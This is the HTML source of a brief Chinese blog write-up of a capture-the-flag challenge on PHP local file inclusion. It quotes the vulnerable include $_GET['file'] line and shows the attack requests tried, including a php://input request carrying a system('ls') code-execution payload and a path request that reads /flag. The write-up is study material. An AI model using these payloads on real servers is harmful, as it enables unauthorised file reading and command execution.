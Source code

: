 
<!DOCTYPE html>
<html lang="zh-cn" class="loading">
<head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge,chrome=1" />
    <meta name="viewport" content="width=device-width, minimum-scale=1.0, maximum-scale=1.0, user-scalable=no">
    <title>BUU-LFI-COURSE-1 - ExceptionB`s Small Room</title>
    <meta name="apple-mobile-web-app-capable" content="yes" />
    <meta name="apple-mobile-web-app-status-bar-style" content="black-translucent">
    <meta name="google" content="notranslate" />
    <meta name="keywords" content="Blog,"> 
    <meta name="description" content="有一说一，看到这个题目的这一行
1include $_GET[&amp;#x27;file&amp;#x27;]
感觉就是要在查询字符串上动手脚
先请求
1GET /?file=flag HTTP/1.1
报错 N,"> 
    <meta name="author" content="ExceptionB Ch. (aka 鲤唐可可)"> 
    <link rel="alternative" href="atom.xml" title="ExceptionB`s Small Room" type="application/atom+xml"> 
    <link rel="icon" href="/img/favicon.png"> 
    
    
    
    <meta name="twitter:card" content="summary"/>
    <meta name="twitter:title" content="BUU-LFI-COURSE-1 - ExceptionB`s Small Room"/>
    <meta name="twitter:description" content="有一说一，看到这个题目的这一行
1include $_GET[&amp;#x27;file&amp;#x27;]
感觉就是要在查询字符串上动手脚
先请求
1GET /?file=flag HTTP/1.1
报错 N,"/>
    
    
    
    
    <meta property="og:site_name" content="ExceptionB`s Small Room"/>
    <meta property="og:type" content="object"/>
    <meta property="og:title" content="BUU-LFI-COURSE-1 - ExceptionB`s Small Room"/>
    <meta property="og:description" content="有一说一，看到这个题目的这一行
1include $_GET[&amp;#x27;file&amp;#x27;]
感觉就是要在查询字符串上动手脚
先请求
1GET /?file=flag HTTP/1.1
报错 N,"/>
    
<link rel="stylesheet" href="/css/diaspora.css">

    <script>window.searchDbPath = "/search.xml";</script>
    <link rel="preconnect" href="https://fonts.googleapis.com">
    <link rel="preconnect" href="https://fonts.gstatic.com" crossorigin>
    <link href="https://fonts.googleapis.com/css2?family=Source+Code+Pro&display=swap" rel="stylesheet">
<meta name="generator" content="Hexo 5.4.2"></head>

<body class="loading">
    <span id="config-title" style="display:none">ExceptionB`s Small Room</span>
    <div id="loader"></div>
    <div id="single">
    <div id="top" style="display: block;">
    <div class="bar" style="width: 0;"></div>
    <a class="iconfont icon-home image-icon" href="javascript:;" data-url="https://ray.akarin.tk"></a>
    <div title="播放/暂停" class="iconfont icon-play"></div>
    <h3 class="subtitle">BUU-LFI-COURSE-1</h3>
    <div class="social">
        <div>
            <div class="share">
                <a title="获取二维码" class="iconfont icon-scan" href="javascript:;"></a>
            </div>
            <div id="qr"></div>
        </div>
    </div>
    <div class="scrollbar"></div>
</div>

    <div class="section">
        <div class="article">
    <div class='main'>
        <h1 class="title">BUU-LFI-COURSE-1</h1>
        <div class="stuff">
            <span>十月 01, 2022</span>
            
  <ul class="post-tags-list" itemprop="keywords"><li class="post-tags-list-item"><a class="post-tags-list-link" href="/tags/ctf/" rel="tag">ctf</a></li></ul>


        </div>
        <div class="content markdown">
            <p>有一说一，看到这个题目的这一行</p>
<figure class="highlight plaintext"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">include $_GET[&#x27;file&#x27;]</span><br></pre></td></tr></table></figure>
<p>感觉就是要在查询字符串上动手脚</p>
<p>先请求</p>
<figure class="highlight plaintext"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">GET /?file=flag HTTP/1.1</span><br></pre></td></tr></table></figure>
<p>报错 No such file or directory</p>
<p>想过可能文件名是奇奇怪怪的东西，于是又试了一下</p>
<figure class="highlight plaintext"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br></pre></td><td class="code"><pre><span class="line">GET /?file=php://input HTTP/1.1</span><br><span class="line"></span><br><span class="line">&lt;?php system(&#x27;ls&#x27;)?&gt;</span><br></pre></td></tr></table></figure>
<p>还是失败 (yysy, 这段是我网上抄的，但是莫名其妙不能用)</p>
<p>又想到，上一道题的flag就是放在根目录的，于是</p>
<figure class="highlight plaintext"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">GET /?file=/flag HTTP/1.1</span><br></pre></td></tr></table></figure>
<p>出来了</p>

            <!--[if lt IE 9]><script>document.createElement('audio');</script><![endif]-->
            <audio id="audio" loop="1" preload="auto" controls="controls" data-autoplay="false">
                <source type="audio/mpeg" src="">
            </audio>
            
                <ul id="audio-list" style="display:none">
                    
                        
                            <li title="0" data-url="http://link.hhtjim.com/163/425570952.mp3"></li>
                        
                    
                        
                            <li title="1" data-url="http://link.hhtjim.com/163/425570952.mp3"></li>
                        
                    
                </ul>
            
        </div>
        
        
    <div id="gitalk-container" class="comment link"
		data-enable="false"
        data-ae="false"
        data-ci=""
        data-cs=""
        data-r=""
        data-o=""
        data-a=""
        data-d="false"
    >查看评论</div>


    </div>
    
        <div class="side">
            
        </div>
    
</div>


    </div>
</div>
</body>


<script src="//lib.baomitu.com/jquery/1.8.3/jquery.min.js"></script>
<script src="/js/plugin.js"></script>
<script src="/js/typed.js"></script>
<script src="/js/diaspora.js"></script>


<link rel="stylesheet" href="/photoswipe/photoswipe.css">
<link rel="stylesheet" href="/photoswipe/default-skin/default-skin.css">


<script src="/photoswipe/photoswipe.min.js"></script>
<script src="/photoswipe/photoswipe-ui-default.min.js"></script>


<!-- Root element of PhotoSwipe. Must have class pswp. -->
<div class="pswp" tabindex="-1" role="dialog" aria-hidden="true">
    <!-- Background of PhotoSwipe. 
         It's a separate element as animating opacity is faster than rgba(). -->
    <div class="pswp__bg"></div>
    <!-- Slides wrapper with overflow:hidden. -->
    <div class="pswp__scroll-wrap">
        <!-- Container that holds slides. 
            PhotoSwipe keeps only 3 of them in the DOM to save memory.
            Don't modify these 3 pswp__item elements, data is added later on. -->
        <div class="pswp__container">
            <div class="pswp__item"></div>
            <div class="pswp__item"></div>
            <div class="pswp__item"></div>
        </div>
        <!-- Default (PhotoSwipeUI_Default) interface on top of sliding area. Can be changed. -->
        <div class="pswp__ui pswp__ui--hidden">
            <div class="pswp__top-bar">
                <!--  Controls are self-explanatory. Order can be changed. -->
                <div class="pswp__counter"></div>
                <button class="pswp__button pswp__button--close" title="Close (Esc)"></button>
                <button class="pswp__button pswp__button--share" title="Share"></button>
                <button class="pswp__button pswp__button--fs" title="Toggle fullscreen"></button>
                <button class="pswp__button pswp__button--zoom" title="Zoom in/out"></button>
                <!-- Preloader demo http://codepen.io/dimsemenov/pen/yyBWoR -->
                <!-- element will get class pswp__preloader--active when preloader is running -->
                <div class="pswp__preloader">
                    <div class="pswp__preloader__icn">
                      <div class="pswp__preloader__cut">
                        <div class="pswp__preloader__donut"></div>
                      </div>
                    </div>
                </div>
            </div>
            <div class="pswp__share-modal pswp__share-modal--hidden pswp__single-tap">
                <div class="pswp__share-tooltip"></div> 
            </div>
            <button class="pswp__button pswp__button--arrow--left" title="Previous (arrow left)">
            </button>
            <button class="pswp__button pswp__button--arrow--right" title="Next (arrow right)">
            </button>
            <div class="pswp__caption">
                <div class="pswp__caption__center"></div>
            </div>
        </div>
    </div>
</div>



<script type="text/x-mathjax-config">
    MathJax.Hub.Config({"HTML-CSS": { preferredFont: "TeX", availableFonts: ["STIX","TeX"], linebreaks: { automatic:true }, EqnChunk: (MathJax.Hub.Browser.isMobile ? 10 : 50) },
        tex2jax: { inlineMath: [ ["$", "$"], ["\\(","\\)"] ], processEscapes: true, ignoreClass: "tex2jax_ignore|dno",skipTags: ['script', 'noscript', 'style', 'textarea', 'pre', 'code']},
        TeX: {  noUndefined: { attributes: { mathcolor: "red", mathbackground: "#FFEEEE", mathsize: "90%" } }, Macros: { href: "{}" } },
        messageStyle: "none"
    });
</script>
<script type="text/x-mathjax-config">
    MathJax.Hub.Queue(function() {
        var all = MathJax.Hub.getAllJax(), i;
        for(i=0; i < all.length; i += 1) {
            all[i].SourceElement().parentNode.className += ' has-jax';
        }
    });
</script>

<script async type="text/javascript" src="https://cdnjs.cloudflare.com/ajax/libs/mathjax/2.7.7/MathJax.js?config=TeX-MML-AM_CHTML">
</script>




</html>

